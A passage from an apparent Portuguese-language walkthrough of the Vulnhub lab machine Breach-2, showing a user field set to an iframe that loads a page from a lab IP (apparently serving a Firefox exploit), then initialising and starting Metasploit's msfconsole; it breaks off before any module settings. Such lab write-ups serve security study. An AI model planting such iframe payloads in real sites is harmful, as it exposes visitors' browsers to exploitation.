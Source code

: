 

* Vamos criar um usuario...
```
<iframe src="http://192.168.110.3"></iframe>
```

![](/assets/img/Vulnhub/Breach-2/exploit-firefox.png)


#### MSFCONSOLE

* Vamos setar as opcoes no **msfconsole**, mas primeiramente vamos iniciar o banco de dados da ferramenta

```bash
sudo msfdb init
```

![](/assets/img/Vulnhub/Breach-2/msfdb-init.png)



* Vamos iniciar a ferramenta msfconsole
